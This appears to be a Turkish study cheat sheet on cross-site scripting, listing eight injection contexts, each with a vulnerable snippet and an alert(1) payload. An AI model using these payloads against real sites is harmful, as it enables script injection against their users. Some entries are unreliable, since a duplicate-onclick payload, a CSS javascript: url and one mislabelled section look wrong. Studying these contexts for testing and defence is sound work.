 <h1>CONTEXTS</h1>
<br>

<h2>🔹 1. HTML Element Context (Tag Context)</h2>
<h4>User input direkt HTML elementin içine yerleştirilir.</h4><br>

📌 Örnek:  
`<div>PAYLOAD</div>`  
<br>
🎯 Exploit:  
```html
</div><script>alert(1)</script>
```
<br>



<h2>🔹 2. HTML Attribute Context</h2>
<h4>Input, bir HTML attribute değerine girer.</h4><br>

📌 Örnek:  
`<input type="text" value="PAYLOAD">`  
<br>
🎯 Exploit:  
```html
" autofocus onfocus=alert(1) x="
```
<br>



<h2>🔹 3. HTML Event Handler Context</h2>
<h4>Attribute kısmı ama event tetikleyici (onclick, onerror vs.).</h4><br>

📌 Örnek:  
`<button onclick="PAYLOAD">Click me</button>`  
<br>
🎯 Exploit:  
```html
" onclick=alert(1) x="
```
<br>



<h2>🔹 4. JavaScript Context (Script Block Injection)</h2>
<h4>Input, bir script bloğuna gömülür.</h4><br>

📌 Örnek:  
`<script>
    var name = "PAYLOAD";
</script>
`
<br><br>
🎯 Exploit:  
```js
";alert(1);//
```
<br>



<h2>🔹 5. JavaScript Inline Event Context</h2>
<h4>HTML içinde ama JS çalıştırılır.</h4><br>

📌 Örnek:  
`<button onclick="doSomething('PAYLOAD')">`  
<br>
🎯 Exploit:  
```js
');alert(1);//
```
<br>



<h2>🔹 6. DOM-Based Context (innerHTML, location.hash vs.)</h2>
<h4>JavaScript input'u alıp DOM’a gömer. Server tarafı devrede yok.</h4><br>

📌 Örnek:  
`document.body.innerHTML = location.hash;`  
<br>
🎯 Exploit:  
```php
#<img src=x onerror=alert(1)>
```
<br>



<h2>🔹 7. URL / HREF / SRC Context</h2>
<h4>Veri href, src, action gibi URI attribute’larına yazılır.</h4><br>

📌 Örnek:  
`<a href="PAYLOAD">Click</a>`  
<br>
🎯 Exploit:  
```html
<a href="javascript:alert(1)">Click</a>
```
<br>



<h2>🔹 8. CSS Context</h2>
<h4>User input direkt HTML elementin içine yerleştirilir.</h4><br>

📌 Örnek:  
`<style>
  body { background: PAYLOAD; }
</style>
`  
<br>
🎯 Exploit:  
```css
url("javascript:alert(1)")
```
